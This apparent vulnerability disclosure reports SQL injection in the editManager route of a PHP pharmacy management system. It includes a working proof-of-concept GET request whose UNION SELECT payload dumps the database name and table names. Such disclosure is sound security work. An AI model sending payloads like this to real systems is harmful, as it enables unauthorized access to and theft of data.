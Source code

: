 ## editManager

**Description of the vulnerability**
pharmacy_Management_System latest version has SQL injection, which can get information about the database and even GetShell via SQL injection

**Vulnerability recurrence**

We need to set up this PMS website locally

Let's open the  /Index.php?id=allManager  route

![image-20240723105418419](https://github.com/user-attachments/assets/9359ef86-5bb9-4730-bd15-7ecbf32f26d8)

POC

```
GET /index.php?action=editManager&id=8}'+union+select+1,database(),(SELECT+GROUP_CONCAT(table_name)+FROM+information_schema.tables+WHERE+table_schema=database()),4,5,6,7,8+order+by+id+limit+0,1--+ HTTP/1.1
```

![image-20240723125248656](https://github.com/user-attachments/assets/edc9750b-ea32-4cf4-ba79-2c41bee9489f)

Result：We can get the database name, table name, etc

![image-20240723125309098](https://github.com/user-attachments/assets/617cda8d-7660-4b28-a2a6-36140619efd5)

![image-20240723134203341](https://github.com/user-attachments/assets/4c993301-d368-4c47-8e7c-dd6e6ffde161)

Analysis code

![image-20240723130427914](https://github.com/user-attachments/assets/5874c4b2-2d35-4165-8686-42c072360eea)
